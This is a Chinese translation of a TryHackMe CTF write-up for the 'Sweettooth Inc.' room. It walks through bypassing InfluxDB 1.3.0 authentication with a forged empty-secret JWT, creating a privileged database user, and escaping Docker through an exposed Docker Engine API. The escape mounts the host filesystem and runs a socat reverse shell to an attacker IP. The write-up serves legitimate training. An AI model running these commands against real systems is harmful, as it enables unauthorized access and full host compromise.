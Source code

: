 # TryHackMe - Sweettooth 公司(非端口转发方法)

> 原文：<https://infosecwriteups.com/tryhackme-sweettooth-inc-non-port-forward-method-a658d587c481?source=collection_archive---------2----------------------->

![](img/bb698dfd9a1e4544b70687ef477622db.png)

大家好，这将是关于 [TryHackMe](https://tryhackme.com/) 的 [Sweettooth Inc .房间](https://tryhackme.com/room/sweettoothinc)的报道。在这个房间中，我们必须首先列举一个易受攻击的数据库，在这个数据库中，我们必须创建一个 JWT 令牌来登录该数据库，并在那里获取系统的 SSH 凭据。一旦我们在系统上站稳脚跟，我们看到它是一个 docker 容器，带有一个公开的 Docker 引擎 API。我们可以用它来突破 docker 容器以访问主机。

从 nmap 扫描开始:

```
# Nmap 7.91 scan initiated Fri Jul 23 18:32:34 2021 as: nmap -sT -p- -sVC -oN services.nmap --open -n -v -T4 10.10.219.28
Nmap scan report for 10.10.219.28
Host is up (0.19s latency).
Not shown: 59487 closed ports, 6044 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE VERSION
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34421/udp6  status
|   100024  1          40752/tcp   status
|   100024  1          43744/udp   status
|_  100024  1          45271/tcp6  status
2222/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 b0:ce:c9:21:65:89:94:52:76:48:ce:d8:c8:fc:d4:ec (DSA)
|   2048 7e:86:88:fe:42:4e:94:48:0a:aa:da:ab:34:61:3c:6e (RSA)
|   256 04:1c:82:f6:a6:74:53:c9:c4:6f:25:37:4c:bf:8b:a8 (ECDSA)
|_  256 49:4b:dc:e6:04:07:b6:d5:ab:c0:b0:a3:42:8e:87:b5 (ED25519)
8086/tcp  open  http    InfluxDB http admin 1.3.0
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
40752/tcp open  status  1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

需要注意的要点:

*   端口 2222: SSH (OpenSSH 6.7p1)
*   端口 8086: InfluxDB http admin 1.3.0
*   设备可能是 Linux 系统

通过快速的谷歌搜索，我们得知在 InfluxDB:[https://github.com/influxdata/influxdb/issues/12927](https://github.com/influxdata/influxdb/issues/12927)中存在一个密码绕过漏洞

这里有一篇文章证实了我们的 InfluxDB 版本 1.3.0 确实存在漏洞，并解释了如何利用它:[https://www . komodosec . com/post/when-all-else-fails-find-a-0-day](https://www.komodosec.com/post/when-all-else-fails-find-a-0-day)

要利用这一点，我们首先需要一个有效的用户名。这可以通过简单地访问 web 浏览器上的`/debug/requests`端点来完成。该 URL 类似于下面的内容:`http://10.10.219.28:8086/debug/requests`

![](img/59cfb7d864cbc538f169819b2c5ce473.png)

找到数据库用户名

数据库用户名:o5yY6yya

现在，为了制作 JWT 令牌，我们需要设置以下参数:

*   用户名:o5yY6yya
*   有效截止日期
*   空密钥

它应该是这样的:

![](img/babaa4870d4e465981b868a265e1768e.png)

使用 jwt.io 创建我们的令牌

InfluxDB API 文档很好地解释了如何使用它:

*   [https://docs . influx data . com/influx db/v 1.8/guides/query _ data/](https://docs.influxdata.com/influxdb/v1.8/guides/query_data/)
*   [https://docs . influx data . com/influx db/v 1.8/administration/authentic ation _ and _ authorization/](https://docs.influxdata.com/influxdb/v1.8/administration/authentication_and_authorization/)

以下是一些有助于完成任务的查询:

*   显示数据库:(为了更好的可读性，我使用 [jq](https://github.com/stedolan/jq) 解析 json)

```
curl -G 'http://10.10.219.28:8086/query?' --data-urlencode 'q=SHOW DATABASES;'  -H 'Authorization: Bearer <jwt token here>' | jq
```

*   要显示所选数据库中的表(在 InfluxDB 中表被称为“series ”):

```
curl -G 'http://10.10.219.28:8086/query?' --data-urlencode "db=mixer" --data-urlencode 'q=SHOW SERIES'  -H 'Authorization: Bearer <jwt token here>' | jq
```

*   要显示系列的内容:

```
curl -G 'http://10.10.219.28:8086/query?' --data-urlencode "db=tanks" --data-urlencode 'q=SELECT * FROM water_tank'  -H 'Authorization: Bearer <jwt token here>' | jq
```

你也可以创建一个特权账户，然后不用走 curl 的路，只需使用[流入 CLI](https://docs.influxdata.com/influxdb/v1.8/tools/shell/) 工具。要创建特权帐户，我们需要指定设置了“所有特权”特权的用户名和密码。

```
curl -X POST '[http://10.10.219.28:8086/query?'](http://10.10.219.28:8086/query?') --data-urlencode "q=CREATE USER xplo1t with PASSWORD 'xplo1t' with ALL PRIVILEGES"  -H 'Authorization: Bearer <jwt token here>'
```

在数据库内部，我们可以获得 SSH 凭证

![](img/f0dbf940390b5a2a8cc30c85e695a8a9.png)

现在唯一要做的就是登录:)

SSH 使用这些凭证登录。通过一些枚举，我们看到我们在一个 docker 容器中。在根目录中，有两个我们可能感兴趣的可疑文件:

*   entrypoint.sh
*   initializeandquery.sh

在查看文件之后,‘initializeandquery . sh’文件给出了一个提示，即端口 8080 正被用于查询 docker 容器。

![](img/79fae727fb32d7d3f57730f36bbbf231.png)

检查 initializeandquery.sh 的底部

如果你以前没有用过这个，文档可以帮你:【https://docs.docker.com/engine/api/v1.38/。

让我们看看有哪些容器:

```
curl -X GET [http://localhost:8080/containers/json](http://localhost:8080/containers/json)
```

从这个命令的输出中，我们得到图像名为‘sweettoothinc’。

让我们尝试添加我们自己的图像文件。
我制作了一个 json 映像(命名为 image.json ),配置如下:

```
{
 "Image":"sweettoothinc",
 "cmd":["/bin/bash"],
 "Binds": [
  "/:/mnt:rw"
 ]
}
```

当我们启动这个容器时，`/bin/bash`运行，主机系统的整个文件系统将被挂载到`/mnt`目录中。因此，我们可以完全读/写访问主机上的所有文件。

上传容器:

```
curl -X POST -H "Content-Type: application/json" -d [@image](http://twitter.com/image).json [http://localhost:8080/containers/create](http://localhost:8080/containers/create)Output:
{"Id":"2b5918d16a56fb462b32bcfd72924d925d9d5b31e7cee75af226432d2e54d7c9","Warnings":null}
```

记下我们新容器的容器 ID

> 集装箱编号:2b 5918d 16 a 56 FB 462 b 32 bcfd 72924d 925d 9 D5 b 31 e 7 ce 75 af 226432 D2 e 54d 7 c 9

让我们试着启动它:

```
curl -X POST  [http://localhost:8080/containers/2b5918d16a56fb462b32bcfd72924d925d9d5b31e7cee75af226432d2e54d7c9/start](http://localhost:8080/containers/2b5918d16a56fb462b32bcfd72924d925d9d5b31e7cee75af226432d2e54d7c9/start) Output: No output. Means it started successfully
```

因为我们在这个容器中拥有主机的整个文件系统，所以我们也拥有它们。要获得反向 shell，我们需要创建一个 exec 实例。它允许我们在运行的容器中执行命令。

使用我们之前获得的容器 ID，用 socat 反向 shell 创建一个新的 exec 实例:

```
curl -i -s -X POST -H "Content-Type: application/json" --data-binary '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["socat" ,"TCP:10.17.10.220:1337", "EXEC:sh"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}' [http://localhost:8080/containers/](http://localhost:8080/containers/a0088a8236d254b0296eac76565695190682b98c323709f65c0958fdd42eda19/exec)2b5918d16a56fb462b32bcfd72924d925d9d5b31e7cee75af226432d2e54d7c9[/exec](http://localhost:8080/containers/a0088a8236d254b0296eac76565695190682b98c323709f65c0958fdd42eda19/exec)Output:
{"Id":"da3d7220e76cf0c291311f35773c3e12283ff6929e21bc81b0567cd3eb43ce48"}
```

> exec ID:da3d 7220 e 76 cf 0 c 291311 f 35773 C3 e 12283 ff 6929 e 21 BC 81 b 0567 CD 3 EB 43 ce 48

在本地机器的同一个 1337 端口上设置一个监听器。并启动 exec 实例:

```
curl -i -s -X POST -H 'Content-Type: application/json' --data-binary '{"Detach": false,"Tty": false}' http://localhost:8080/exec/da3d7220e76cf0c291311f35773c3e12283ff6929e21bc81b0567cd3eb43ce48/start
```

在监听器上，应该有一个 shell 在等着你

![](img/01999eee500b37e503e5c5a9b4b69cae.png)

旗帜

如果你想了解更多，这里有一篇文章:[https://dejandayoff.com/the-danger-of-exposing-docker.sock/](https://dejandayoff.com/the-danger-of-exposing-docker.sock/)。谢谢你读到这里。下次见。
